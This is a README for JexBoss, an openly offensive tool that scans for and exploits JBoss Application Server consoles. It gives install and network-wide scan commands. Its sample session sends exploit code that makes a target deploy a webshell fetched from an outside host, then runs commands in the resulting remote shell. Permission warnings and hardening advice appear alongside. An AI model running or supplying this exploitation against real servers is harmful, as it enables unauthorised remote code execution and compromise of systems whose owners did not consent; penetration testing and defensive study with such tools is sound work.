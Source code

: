 JexBoss - Jboss verify and EXploitation Tool
=======

JexBoss is a tool for testing and exploiting vulnerabilities in JBoss Application Server.

Requirements
----
* Python >= 2.7.x
* [urllib3](https://pypi.python.org/pypi/urllib3)

Installation
----
To install the latest version of JexBoss, please use the following commands:

	git clone https://github.com/joaomatosf/jexboss.git
	cd jexboss
	python jexboss.py

	OR:

	Download the latest version at: https://github.com/joaomatosf/jexboss/archive/master.zip
	unzip master.zip
	cd jexboss-master
	python jexboss.py

Features
----
The tool and exploits were developed and tested for versions 3, 4, 5 and 6 of the JBoss Application Server.

The exploitation vectors are:

* /admin-console [ NEW ]
	- tested and working in JBoss versions 5 and 6
* /jmx-console
	- tested and working in JBoss versions 4, 5 and 6
* /web-console/Invoker
	- tested and working in JBoss versions 4
* /invoker/JMXInvokerServlet
	- tested and working in JBoss versions 4 and 5

Usage example
----
* Check the file "demo.png"

* Auto scan mode:
```
$ python jexboss.py -mode auto-scan -network 192.168.0.0/24 -ports 8080,80 -results report_auto_scan.log
```

* File scan mode:
```
$ python jexboss.py -mode file-scan -file host_list.txt -out report_file_scan.log
```

* More Options:

```
$ python jexboss.py -h

optional arguments:
  -h, --help            show this help message and exit
  --version             show program's version number and exit
  --auto-exploit, -A    Send exploit code automatically (USE ONLY IF YOU HAVE
                        PERMISSION!!!)
  --disable-check-updates, -D
                        Disable the check for updates performed by JSP
                        Webshell at:
                        http://webshell.jexboss.net/jsp_version.txt
  -mode {auto-scan,file-scan,standalone}
                        Operation mode

Standalone mode:
  -host HOST            Host address to be checked (eg.
                        http://192.168.0.10:8080)

Auto scan mode:
  -network NETWORK      Network to be checked in CIDR format (eg. 10.0.0.0/8)
  -ports PORTS          List of ports separated by commas to be checked for
                        each host (eg. 8080,8443,8888,80,443)
  -results FILENAME     File name to store the auto scan results

File scan mode:
  -file FILENAME_HOSTS  Filename with host list to be scanned (one host per
                        line)
  -out FILENAME_RESULTS
                        File name to store the file scan results

```

* Standalone mode:

```
* Via git:

$ git clone https://github.com/joaomatosf/jexboss.git
$ cd jexboss
$ python jexboss.py -host https://site-teste.com

* Or via download:

$ wget https://github.com/joaomatosf/jexboss/archive/master.zip
$ unzip master.zip
$ cd jexboss-master
$ python jexboss.py -host https://site-teste.com


 * --- JexBoss: Jboss verify and EXploitation Tool  --- *
 |                                                      |
 | @author:  João Filho Matos Figueiredo                |
 | @contact: joaomatosf@gmail.com                       |
 |                                                      |
 | @update: https://github.com/joaomatosf/jexboss       |
 #______________________________________________________#


 ** Checking Host: https://site-teste.com **

 * Checking admin-console: 	       [ EXPOSED ]
 * Checking web-console: 	       [ OK ]
 * Checking jmx-console: 	       [ VULNERABLE ]
 * Checking JMXInvokerServlet: 	   [ VULNERABLE ]


 * Do you want to try to run an automated exploitation via "jmx-console" ?
   This operation will provide a simple command shell to execute commands on the server..
   Continue only if you have permission!
   yes/NO ? yes

 * Sending exploit code to https://site-teste.com. Wait...


 * Info: This exploit will force the server to deploy the webshell
   available on: http://www.joaomatosf.com/rnp/jbossass.war
 * Successfully deployed code! Starting command shell, wait...

 * - - - - - - - - - - - - - - - - - - - - LOL - - - - - - - - - - - - - - - - - - - - *

 * https://site-teste.com:

 Linux seglinux 3.18.4-1.el6.elrepo.x86_64 #1 SMP Wed Jan 28 13:28:52 EST 2015 x86_64 x86_64 x86_64 GNU/Linux

 CentOS release 6.5 (Final)

 uid=509(jboss) gid=509(jboss) grupos=509(jboss) context=system_u:system_r:initrc_t:s0

[Type commands or "exit" to finish]
Shell> pwd
/usr/jboss-6.1.0.Final/bin

[Type commands or "exit" to finish]
Shell> hostname
fwgw

[Type commands or "exit" to finish]
Shell> ls -all /home
total 16
drwxr-xr-x.  4 root  root  4096 Jan 26  2015 .
dr-xr-xr-x. 23 root  root  4096 Mar 31 04:51 ..
-rwxrwxrwx.  1 root  root     0 Jan 26  2015 file1
-rw-r-----.  1 root  root     0 Jan 26  2015 file2
-rw-rw-r--.  1 root  root     0 Jan 26  2015 file3
drwx------.  2 joao  joao  4096 Jan 26  2015 joao
drwx------.  2 maria maria 4096 Jan 26  2015 maria

[Type commands or "exit" to finish]
Shell>exit

Results: potentially compromised server!
 * - - - - - - -  - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -*
 Recommendations:
 - Remove web consoles and services that are not used, eg:
    $ rm web-console.war
    $ rm http-invoker.sar
    $ rm jmx-console.war
    $ rm jmx-invoker-adaptor-server.sar
    $ rm admin-console.war
 - Use a reverse proxy (eg. nginx, apache, F5)
 - Limit access to the server only via reverse proxy (eg. DROP INPUT POLICY)
 - Search vestiges of exploitation within the directories "deploy" and "management".

 References:
   [1] - https://developer.jboss.org/wiki/SecureTheJmxConsole
   [2] - https://issues.jboss.org/secure/attachment/12313982/jboss-securejmx.pdf

 - If possible, discard this server!
 * - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -*

 * Info: review, suggestions, updates, etc:
   https://github.com/joaomatosf/jexboss

 * DONATE: Please consider making a donation to help improve this tool,
           including research to new versions of JBoss and zero days.

 * Paypal:  joaomatosf@gmail.com
 * Bitcoin Address:  14x4niEpfp7CegBYr3tTzTn4h6DAnDCD9C
 * URI:  bitcoin:14x4niEpfp7CegBYr3tTzTn4h6DAnDCD9C?label=jexboss
```



Questions, problems, suggestions and etc:
----

* joaomatosf@gmail.com


